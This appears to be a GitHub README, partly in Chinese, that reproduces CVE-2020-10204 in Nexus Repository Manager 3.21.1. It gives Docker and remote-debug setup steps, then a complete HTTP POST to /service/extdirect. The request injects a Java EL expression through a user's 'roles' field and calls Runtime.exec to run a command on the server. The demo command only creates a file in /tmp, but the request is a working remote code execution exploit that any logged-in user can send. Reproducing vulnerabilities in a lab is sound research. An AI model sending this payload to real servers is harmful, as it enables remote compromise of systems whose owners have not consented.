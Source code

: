 CVE-2020-10204 Nexus Repository Manager 3

影响版本：<= 3.21.1
Affected Versions:  All previous Nexus Repository Manager 3.x OSS/Pro versions up to and including 3.21.1

Fixed in Version:  Nexus Repository Manager OSS/Pro version 3.21.2

### 1. 拉取镜像
```
docker pull sonatype/nexus3:3.21.1
```

### 2. 创建nexus数据目录
```
mkdir /your-dir/nexus-data && chown -R 200 /your-dir/nexus-data
```

### 3. 运行nexus docker镜像
```
docker run -d --rm -p 8081:8081 -p 5050:5050 --name nexus -v /your-dir/nexus-data:/nexus-data -e INSTALL4J_ADD_VM_PARAMS="-Xms2g -Xmx2g -XX:MaxDirectMemorySize=3g  -Djava.util.prefs.userRoot=/nexus-data -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5050" sonatype/nexus3::3.21.1
```

### 4. github下载源码 & idea远程debug
```
git clone https://github.com/sonatype/nexus-public.git
git checkout -b release-3.21.0-05 origin/release-3.21.0-05
```
idea创建远程debug-启动
```
-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5050
```
漏洞点在 org.sonatype.nexus.common.template.EscapeHelper#stripJavaEl 被绕过

### 5. 登陆任何一个账号

### 6. 调用更新role接口
数据包：
```
POST /service/extdirect HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 301
accept: application/json
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.16936373694860252
Content-Type: application/json
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/swagger-ui/?_v=3.21.1-01&_e=OSS
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.16936373694860252; NXSESSIONID=4e5437b3-7755-4784-bda6-d004e8f589fb
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"www","version":"2","firstName":"www","lastName":"www","email":"www@qq.com","status":"active","roles":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/cve-2020-10204')}"]}],"type":"rpc","tid":9}
```